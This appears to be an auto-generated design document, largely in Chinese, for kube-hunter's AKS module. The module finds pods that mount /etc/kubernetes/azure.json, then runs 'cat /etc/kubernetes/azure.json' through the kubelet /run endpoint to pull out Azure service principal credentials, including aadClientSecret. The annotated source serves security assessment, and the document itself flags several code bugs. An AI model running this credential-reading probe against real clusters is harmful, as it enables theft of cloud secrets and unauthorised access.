






# `kubehunter\kube_hunter\modules\hunting\aks.py` 详细设计文档

This code is a kube-hunter module that hunts for Azure Kubernetes Service (AKS) clusters and attempts to discover exposed Azure Service Principal (SPN) credentials by finding containers with access to the azure.json configuration file, then executing commands inside those containers to extract sensitive Azure subscription credentials.

## 整体流程



## 类结构

```
Event (ABC from kube_hunter.core.events.types)
├── Vulnerability (extends Event)
│   └── AzureSpnExposure
Hunter (ABC from kube_hunter.core.types)
└── AzureSpnHunter
ActiveHunter (ABC from kube_hunter.core.types)
└── ProveAzureSpnExposure
```

## 全局变量及字段


### `logger`
    
Logger instance for this module

类型：`logging.Logger`
    


### `AzureSpnExposure.container`
    
Contains container information including name, pod, and namespace

类型：`dict`
    


### `AzureSpnHunter.event`
    
The event that triggered this hunter

类型：`ExposedRunHandler`
    


### `AzureSpnHunter.base_url`
    
Base URL for the Kubelet API endpoint

类型：`str`
    


### `ProveAzureSpnExposure.event`
    
The event containing container information

类型：`AzureSpnExposure`
    


### `ProveAzureSpnExposure.base_url`
    
Base URL for the Kubelet API endpoint

类型：`str`
    
    

## 全局函数及方法


### `AzureSpnExposure.__init__`

该方法是 `AzureSpnExposure` 类的构造函数，用于初始化 Azure SPN（服务主体名称）暴露漏洞对象。它继承自 `Vulnerability` 和 `Event`，设置漏洞类别为 IdentityTheft（身份盗窃），VID 为 KHV004，并保存容器信息用于后续的漏洞利用和数据提取。

参数：

- `self`：`AzureSpnExposure`，当前类的实例
- `container`：`dict`，包含从 Azure Kubernetes 集群中发现的具有访问 azure.json 文件权限的容器信息，结构为 `{"name": 容器名, "pod": Pod名, "namespace": 命名空间}`

返回值：`None`，该方法为构造函数，不返回任何值

#### 流程图



#### 带注释源码

```python
def __init__(self, container):
    """
    初始化 AzureSpnExposure 漏洞对象
    
    该构造函数继承自 Vulnerability 和 Event，用于表示 Azure Kubernetes 集群中
    SPN（服务主体名称）凭据暴露的安全漏洞。当容器挂载了包含 Azure 凭据的 
    azure.json 文件时，会创建此漏洞对象。
    
    参数:
        container: dict, 包含具有访问 azure.json 文件权限的容器信息
                   字典结构: {
                       "name": str,    # 容器名称
                       "pod": str,     # 所属 Pod 名称
                       "namespace": str  # 所属命名空间
                   }
    """
    # 调用父类 Vulnerability 的初始化方法，设置漏洞的元数据信息
    # 参数说明：
    #   - Azure: 漏洞所属的云平台/服务类型
    #   - "Azure SPN Exposure": 漏洞的显示名称
    #   - category=IdentityTheft: 漏洞类别为身份盗窃
    #   - vid="KHV004": 漏洞的唯一标识符
    Vulnerability.__init__(
        self, Azure, "Azure SPN Exposure", category=IdentityTheft, vid="KHV004",
    )
    
    # 保存容器信息到实例属性，供后续 ProveAzureSpnHunter 猎人模块使用
    # 该容器信息将用于在 execute 阶段执行命令读取 azure.json 文件
    self.container = container
```


### `AzureSpnHunter.__init__`

初始化 AzureSpnHunter 类的实例，设置事件对象和基础 URL。

参数：

- `self`：实例本身隐式参数，无类型描述
- `event`：对象，表示来自 ExposedRunHandler 的事件，用于获取目标集群的主机和端口信息

返回值：无（`__init__` 方法不返回值）

#### 流程图

```mermaid
flowchart TD
    A[开始 __init__] --> B[赋值 self.event = event]
    B --> C{检查 event.host 和 event.port 存在}
    C -->|是| D[构造 base_url: https://{host}:{port}]
    C -->|否| E[base_url 将在使用时获取]
    D --> F[结束 __init__]
    E --> F
```

#### 带注释源码

```python
def __init__(self, event):
    """初始化 AzureSpnHunter 实例
    
    参数:
        event: 来自 ExposedRunHandler 的事件对象，包含目标 Azure Kubernetes 集群
               的 host 和 port 信息，用于后续构造 API 请求的 base_url
    """
    # 将传入的事件对象保存为实例属性，供类的其他方法使用
    self.event = event
    
    # 从事件对象中提取 host 和 port，构造基础 URL 用于后续 API 调用
    # 格式: https://{host}:{port}
    self.base_url = f"https://{self.event.host}:{self.event.port}"
```


### `AzureSpnHunter.get_key_container`

该方法通过调用 Kubernetes API 列出集群中的 Pods，遍历每个 Pod 的容器及其挂载卷，查找挂载路径包含 "/etc/kubernetes/azure.json" 的容器，并返回该容器的名称、所属 Pod 名称和命名空间信息，用于后续获取 Azure 订阅凭证。

参数：

- `self`：隐式参数，类型为 `AzureSpnHunter` 实例，表示当前 Hunter 类的实例本身。

返回值：`dict` 或 `None`，返回包含容器名称（name）、Pod 名称（pod）和命名空间（namespace）的字典；如果请求超时或未找到匹配的容器则返回 `None`。

#### 流程图



#### 带注释源码

```python
def get_key_container(self):
    """
    查找具有访问 azure.json 文件权限的容器
    
    通过 Kubernetes API 获取集群中所有 Pod 信息，
    遍历容器的挂载卷，找到挂载了 /etc/kubernetes/azure.json 的容器
    """
    # 构建访问 Kubernetes API 获取 pods 的端点 URL
    endpoint = f"{self.base_url}/pods"
    
    # 记录调试日志，表明正在尝试查找包含 azure.json 文件的容器
    logger.debug("Trying to find container with access to azure.json file")
    
    try:
        # 发送 GET 请求获取集群中所有 pods 的信息
        # verify=False: 跳过 SSL 证书验证（用于测试环境）
        # timeout: 设置网络请求超时时间，从配置中读取
        r = requests.get(endpoint, verify=False, timeout=config.network_timeout)
    except requests.Timeout:
        # 请求超时，记录调试日志并返回 None
        logger.debug("failed getting pod info")
    else:
        # 请求成功，解析 JSON 响应获取 pods 列表
        pods_data = r.json().get("items", [])
        
        # 遍历集群中的每个 Pod
        for pod_data in pods_data:
            # 遍历 Pod 中的每个容器
            for container in pod_data["spec"]["containers"]:
                # 遍历容器的每个挂载卷
                for mount in container["volumeMounts"]:
                    # 获取容器的挂载路径
                    path = mount["mountPath"]
                    
                    # 检查挂载路径是否匹配 azure.json 文件路径
                    # 使用 startswith 检查路径前缀匹配
                    if "/etc/kubernetes/azure.json".startswith(path):
                        # 找到匹配的容器，返回容器信息字典
                        return {
                            "name": container["name"],          # 容器名称
                            "pod": pod_data["metadata"]["name"],      # 所属 Pod 名称
                            "namespace": pod_data["metadata"]["namespace"],  # 所属命名空间
                        }
    
    # 未找到匹配的容器或请求失败，返回 None
    return None
```


### AzureSpnHunter.execute

该方法是 AzureSpnHunter 类的核心执行方法，用于在 Azure Kubernetes 集群中查找具有访问 azure.json 配置文件权限的容器，并通过发布事件的方式触发后续的 SPN 暴露验证活动。

参数：

- `self`：AzureSpnHunter 实例，表示当前 hunter 实例的上下文

返回值：`None`，无返回值（该方法通过发布事件而非返回值传递结果）

#### 流程图



#### 带注释源码

```python
def execute(self):
    """
    执行 Azure SPN 暴露检测的主方法
    
    该方法会：
    1. 尝试查找具有访问 azure.json 文件权限的容器
    2. 如果找到目标容器，则发布 AzureSpnExposure 事件
       触发 ProveAzureSpnExposure 进行进一步验证
    """
    # 调用 get_key_container 方法获取符合条件（可访问 azure.json）的容器信息
    container = self.get_key_container()
    
    # 如果成功获取到目标容器信息
    if container:
        # 发布 AzureSpnExposure 事件，将容器信息作为事件负载传递
        # 该事件会被 ProveAzureSpnHunter 订阅并处理
        self.publish_event(AzureSpnExposure(container=container))
```


### `ProveAzureSpnExposure.__init__`

初始化 ProveAzureSpnExposure 类的实例，用于通过在容器内执行命令来获取 Azure 订阅文件信息。

参数：

- `self`：实例本身，无需显式传递
- `event`：`AzureSpnExposure` 类型，包含主机和端口信息的事件对象，用于构建访问 Kubernetes API 服务器的基础 URL

返回值：`None`，无返回值（`__init__` 方法）

#### 流程图



#### 带注释源码

```python
def __init__(self, event):
    """
    初始化 ProveAzureSpnExposure 实例
    
    参数:
        event: AzureSpnExposure 事件对象，包含 host 和 port 属性
               该事件对象在 execute 方法中会被进一步处理以获取 Azure 凭据信息
    """
    # 将传入的事件对象存储为实例变量，供类的其他方法使用
    self.event = event
    
    # 构建访问 Kubernetes API 服务器的基础 URL
    # 从 event 对象中提取 host 和 port 属性，格式为 https://{host}:{port}
    # 该 URL 用于后续在 run() 方法中构造容器执行命令的请求
    self.base_url = f"https://{self.event.host}:{self.event.port}"
```


### `ProveAzureSpnExposure.run`

该方法用于在指定的容器中执行命令，通过向 Kubernetes API 服务器的 `/run` 端点发送 POST 请求来在容器内部执行 shell 命令，并返回执行结果。

参数：

- `self`：`ProveAzureSpnExposure`，类的实例自身
- `command`：`str`，要在容器内执行的命令，例如 `"cat /etc/kubernetes/azure.json"`
- `container`：`dict`，包含容器信息的字典，必须包含 `namespace`、`pod`、`name` 三个键

返回值：`requests.Response`，HTTP POST 请求的响应对象，包含命令在容器中的执行结果

#### 流程图

```mermaid
flowchart TD
    A[开始执行 run 方法] --> B[构建 run_url]
    B --> C[使用 / 拼接 base_url, run, namespace, pod, name]
    C --> D[发送 POST 请求]
    D --> E[verify=False, params={'cmd': command}, timeout=config.network_timeout]
    E --> F[返回 requests.Response 对象]
```

#### 带注释源码

```python
def run(self, command, container):
    """
    在指定的容器中执行命令
    
    通过向 Kubernetes API 服务器的 /run 端点发送 POST 请求，
    在指定容器的上下文中执行 shell 命令。
    
    参数:
        command: str, 要执行的命令，如 'cat /etc/kubernetes/azure.json'
        container: dict, 容器信息字典，需包含 'namespace', 'pod', 'name' 键
    
    返回:
        requests.Response: HTTP 响应对象
    """
    # 构建完整的运行端点 URL
    # 格式: https://{host}:{port}/run/{namespace}/{pod}/{container_name}
    run_url = "/".join(self.base_url, "run", container["namespace"], container["pod"], container["name"])
    
    # 发送 POST 请求到容器运行端点
    # verify=False: 跳过 SSL 证书验证
    # params: 将命令作为查询参数传递
    # timeout: 网络请求超时时间
    return requests.post(run_url, verify=False, params={"cmd": command}, timeout=config.network_timeout)
```


### ProveAzureSpnExposure.execute

该方法是Azure SPN（服务主体名称）暴露检测的核心执行逻辑，通过在目标容器的kubelet API执行命令，尝试读取Azure Kubernetes集群的敏感凭证文件（/etc/kubernetes/azure.json），并将其解析后存储到事件对象中用于后续的安全报告。

参数：

- `self`：隐式参数，ActiveHunter类实例本身

返回值：`None`（无显式返回值），该方法通过修改`self.event`对象的属性来输出结果

#### 流程图



#### 带注释源码

```python
def execute(self):
    """
    执行Azure SPN凭证获取逻辑
    通过kubelet API在容器内执行命令读取Azure凭证文件
    """
    try:
        # 构造并发送HTTP POST请求到kubelet的run端点
        # 在目标容器中执行: cat /etc/kubernetes/azure.json
        # 该文件包含Azure Service Principal凭证信息
        subscription = self.run(
            "cat /etc/kubernetes/azure.json",  # 要执行的命令
            container=self.event.container      # 目标容器信息(包含name/pod/namespace)
        ).json()  # 将响应体解析为JSON格式
    except requests.Timeout:
        # 处理网络请求超时情况
        # 可能是容器无响应或网络问题导致
        logger.debug("failed to run command in container", exc_info=True)
    except json.decoder.JSONDecodeError:
        # 处理响应JSON解析失败情况
        # 可能是文件不存在或格式不正确
        logger.warning("failed to parse SPN")
    else:
        # JSON解析成功后，检查是否包含必需的subscriptionId字段
        if "subscriptionId" in subscription:
            # 提取并存储Azure服务主体凭证信息到事件对象
            # 供后续的安全报告或漏洞验证使用
            self.event.subscriptionId = subscription["subscriptionId"]      # Azure订阅ID
            self.event.aadClientId = subscription["aadClientId"]            # Azure AD客户端ID
            self.event.aadClientSecret = subscription["aadClientSecret"]    # Azure AD客户端密钥(敏感信息)
            self.event.tenantId = subscription["tenantId"]                 # Azure AD租户ID
            # 设置证据字符串用于最终报告
            self.event.evidence = f"subscription: {self.event.subscriptionId}"
```

## 关键组件


### AzureSpnExposure

漏洞事件类，表示Azure SPN（服务主体名称）暴露。继承自Vulnerability和Event，用于封装Azure订阅凭证泄露的安全事件。

### AzureSpnHunter

主动hunter类，订阅ExposedRunHandler事件。通过HTTP请求访问Kubelet的pods接口，遍历所有容器及其卷挂载点，查找挂载了/etc/kubernetes/azure.json文件的容器，用于后续获取Azure凭证。

### ProveAzureSpnExposure

主动hunter类，订阅AzureSpnExposure事件。通过在目标容器中执行cat命令读取azure.json文件，解析并提取subscriptionId、aadClientId、aadClientSecret、tenantId等敏感凭证信息。

### get_key_container

AzureSpnHunter类的方法，用于定位挂载了azure.json文件的容器。通过调用Kubelet的pods API获取所有Pod信息，遍历容器的volumeMounts，查找挂载路径以"/etc/kubernetes/azure.json"开头的容器。

### run

ProveAzureSpnExposure类的方法，用于在指定容器中执行命令。通过POST请求调用Kubelet的run API，在容器的namespace、pod和容器名称指定的上下文中执行shell命令。

### execute (AzureSpnHunter)

hunter的入口方法，调用get_key_container查找目标容器，如果找到则发布AzureSpnExposure事件。

### execute (ProveAzureSpnExposure)

hunter的入口方法，尝试在目标容器中读取azure.json文件，解析JSON响应并提取Azure凭证信息，填充到事件对象中。


## 问题及建议


### 已知问题

- **错误的字符串拼接方式**: `"/".join(self.base_url, "run", ...)` 使用了错误的 join 语法，这会导致 URL 构建失败。正确方式应使用 `f-string` 或 `os.path.join`
- **不正确的路径匹配逻辑**: `"/etc/kubernetes/azure.json".startswith(path)` 逻辑反了，应该判断 mount 的路径是否是目标路径的前缀
- **缺少响应状态码检查**: HTTP 请求后未检查 `r.status_code`，可能导致处理错误响应时程序异常
- **不完整异常处理**: 只捕获了 `requests.Timeout` 和 `JSONDecodeError`，但网络请求可能抛出其他异常如 `requests.ConnectionError`
- **多重继承初始化方式不当**: 使用 `Vulnerability.__init__(self, ...)` 而非 `super().__init__()`，在多重继承场景下可能导致 MRO 问题
- **缺少空值安全检查**: 直接访问嵌套字典如 `pod_data["spec"]["containers"]`，未做存在性检查，可能引发 KeyError
- **安全隐患**: 多次使用 `verify=False` 禁用 SSL 验证，在生产环境中存在中间人攻击风险

### 优化建议

- 使用 `super()` 正确处理多重继承的初始化
- 使用 `r.raise_for_status()` 检查 HTTP 响应状态码
- 捕获更广泛的 `requests.RequestException` 异常类型
- 使用字典的 `.get()` 方法或 `try-except` 保护嵌套字典访问
- 考虑使用 `urllib3.disable_warnings()` 配合配置项控制 SSL 验证行为
- 修正路径匹配逻辑为 `path.startswith("/etc/kubernetes/azure.json")` 或更精确的路径前缀判断

## 其它


### 设计目标与约束

**设计目标**:
- 检测Azure AKS集群中因配置不当导致的SPN（服务主体名称）暴露漏洞
- 通过Kubernetes API获取容器挂载的敏感文件信息
- 在不破坏目标系统的前提下获取Azure订阅凭证

**约束条件**:
- 只能针对Azure云平台的AKS集群进行检测
- 需要目标Kubernetes API服务器可访问
- 依赖Kubernetes的run API来执行容器内命令

### 错误处理与异常设计

**异常类型**:
- `requests.Timeout`: 网络请求超时，用于get_key_container和run方法
- `json.decoder.JSONDecodeError`: JSON解析失败，用于execute方法解析订阅文件

**处理策略**:
- Timeout异常仅记录debug级别日志，不中断执行流程
- JSONDecodeError记录warning级别日志
- 关键数据（container）为空时直接跳过执行，避免空指针异常

### 数据流与状态机

**事件触发流程**:
1. ExposedRunHandler事件触发 → AzureSpnHunter类接收（需满足cloud=="Azure"条件）
2. AzureSpnHunter.execute() → 发布AzureSpnExposure事件
3. AzureSpnExposure事件触发 → ProveAzureSpnExposure类接收
4. ProveAzureSpnExposure.execute() → 获取并更新AzureSpnExposure事件属性

**状态转换**:
- Initial → Hunting(发现容器) → Exposed(发布漏洞事件) → Proved(获取凭证)

### 外部依赖与接口契约

**外部依赖**:
- `requests`: HTTP客户端，用于Kubernetes API调用
- `kube_hunter.conf.config`: 网络超时配置（config.network_timeout）
- `kube_hunter.core.events.handler`: 事件发布订阅器
- `kube_hunter.core.events.types`: 事件基类（Event, Vulnerability）
- `kube_hunter.core.types`: 威胁类型定义（Hunter, ActiveHunter, IdentityTheft, Azure）

**接口契约**:
- ExposedRunHandler需提供host、port、cloud属性
- AzureSpnExposure事件需支持动态属性赋值（subscriptionId, aadClientId等）

### 安全性考虑

- 证书验证被禁用（verify=False），存在中间人攻击风险
- 敏感凭证（aadClientSecret）直接存储在事件对象中，可能被日志记录
- 使用弱断言（cloud=="Azure"）进行类型判断

### 性能考量

- pod列表获取无分页处理，大规模集群可能导致内存占用过高
- 嵌套循环遍历所有pod和容器，时间复杂度O(n*m)
- 超时配置依赖全局config，调用链较长

### 兼容性要求

- 目标Kubernetes版本: 1.13+（支持run API）
- Python版本: 3.6+
- 需要Azure AKS集群环境

### 日志规范

- 使用模块级logger（__name__）
- debug级别: 正常流程信息
- warning级别: 解析失败等可恢复错误
- 异常堆栈仅在execute方法中记录（exc_info=True）


    